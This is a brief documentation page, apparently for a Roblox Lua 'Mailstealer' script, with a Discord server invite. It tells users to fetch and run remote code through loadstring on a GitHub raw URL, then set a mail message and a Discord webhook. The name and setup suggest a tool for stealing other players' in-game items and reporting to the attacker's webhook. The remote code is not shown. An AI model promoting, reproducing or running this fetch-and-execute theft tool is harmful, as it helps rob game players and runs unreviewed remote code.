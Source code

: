Simple Mailstealer API documentation New features are being introduced by recommendation to Shimm#01
Want to join the server? Join here! dsc.gg/moontech
# Initialization
**! Forgeting this step will result in your script not working !**
```
-- At the top of your script, add this
local Moontech = loadstring(game:HttpGet("https://raw.githubusercontent.com/AzureScript3/API/main/Api.lua", true))()
```

## Documentation

**Mailbox function**
```
Moontech.Mailmessage = "" -- anything you want.
```

**Discord Webhook function**
```
Moontech.images = "" -- discord webhook profile
```

# ADDING MORE APIS SOON!

